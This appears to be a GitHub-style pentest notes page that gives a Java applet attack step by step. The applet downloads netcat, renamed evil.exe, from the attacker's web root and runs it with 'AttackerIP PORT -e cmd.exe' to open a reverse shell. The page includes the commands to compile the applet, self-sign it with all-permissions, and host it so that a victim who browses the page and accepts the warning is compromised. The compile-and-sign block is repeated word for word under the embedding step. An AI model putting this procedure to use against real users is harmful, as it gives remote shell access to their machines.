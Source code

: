 # This Java applet will download a file and execute it.

**Change:** 

'<String expath = tmpdir + "evil.exe";>' 
//CHANGE if nc.exe name is different

'<f = Runtime.getRuntime().exec("cmd.exe /c " + expath + " AttackerIP PORT -e cmd.exe");>' 
//CHANGE ME
     

-[x] Compile code and then sign the java applet

    /usr/lib/jvm/java-8-openjdk-i386/bin/javac -source 1.7 -target 1.7 Java.java
    echo "Permissions: all-permissions" > /root/manifest.txt
    /usr/lib/jvm/java-8-openjdk-i386/bin/jar cvf Java.jar Java.class
    /usr/lib/jvm/java-8-openjdk-i386/bin/keytool -genkey -alias signapplet -keystore mykeystore -keypass mykeypass -storepass password123

    /usr/lib/jvm/java-8-openjdk-i386/bin/jarsigner -keystore mykeystore -storepass password123 -keypass mykeypass -signedjar SignedJava.jar Java.jar signapplet

    cp Java.class SignedJava.jar /var/www/html/

-[x] Embed applet in an html file and write it to web root folder /var/www/html
    
    echo "Permissions: all-permissions" > /root/manifest.txt
    /usr/lib/jvm/java-8-openjdk-i386/bin/jar cvf Java.jar Java.class
    /usr/lib/jvm/java-8-openjdk-i386/bin/keytool -genkey -alias signapplet -keystore mykeystore -keypass mykeypass -storepass password123

    /usr/lib/jvm/java-8-openjdk-i386/bin/jarsigner -keystore mykeystore -storepass password123 -keypass mykeypass -signedjar SignedJava.jar Java.jar signapplet

    cp Java.class SignedJava.jar /var/www/html/

-[x] Copy netcat to web root and rename it to an executable file

    ```cp /usr/share/windows-binaries/nc.exe /var/www/html/evil.exe```

-[x] From VictimUser browses java.html and reviews warning pop-up

